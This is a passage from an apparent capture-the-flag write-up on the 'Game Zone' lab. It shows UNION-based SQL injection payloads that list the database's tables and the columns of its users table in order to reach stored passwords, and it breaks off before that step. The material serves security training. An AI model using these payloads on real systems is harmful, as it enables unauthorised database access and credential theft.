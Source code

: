 ![gamezone-dbs](/assets/images/2021-02-07-22-51-05.png)

The database db is what we are looking for, let's see what tables are in it:

```text
' union select 1,2, TABLE_NAME FROM information_schema.TABLES WHERE table_schema='db';-- -
```

![gamezone-dbtables](/assets/images/2021-02-07-22-53-17.png)

We have two tables, post and users. Let's try users first and hope we can get usernames and passwords:

```text
' union select 1,table_name, column_name FROM information_schema.columns WHERE table_name = 'users' ;-- -
```

![gamezone-users](/assets/images/2021-02-07-22-55-18.png)

We see there is a pwd table, let's have a look at that:

